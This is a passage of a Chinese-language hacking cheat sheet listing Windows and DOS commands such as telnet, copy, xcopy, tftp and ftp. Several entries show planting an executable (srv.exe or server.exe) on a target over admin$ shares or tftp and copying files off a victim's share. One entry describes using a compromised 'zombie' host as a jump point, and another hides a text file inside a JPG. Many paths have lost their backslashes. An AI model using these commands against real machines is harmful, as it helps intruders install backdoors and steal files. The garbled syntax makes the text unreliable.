 
　　finger username @host 查看最近有哪些用户登陆

 

 

　　telnet ip 端口 远和登陆服务器,默认端口为23

 

 

　　open ip 连接到IP（属telnet登陆后的命令）

 

 

　　telnet 在本机上直接键入telnet 将进入本机的telnet

 

 

　　copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件

 

 

　　copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下

 

 

　　copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件

 

 

　　copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：

 

 

　　xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件

 

 

　　用参数/e才可连目录下的子目录一起复制到目标地址下。

 

 

　　tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送

 

 

　　tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机

 

 

　　ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)

 

 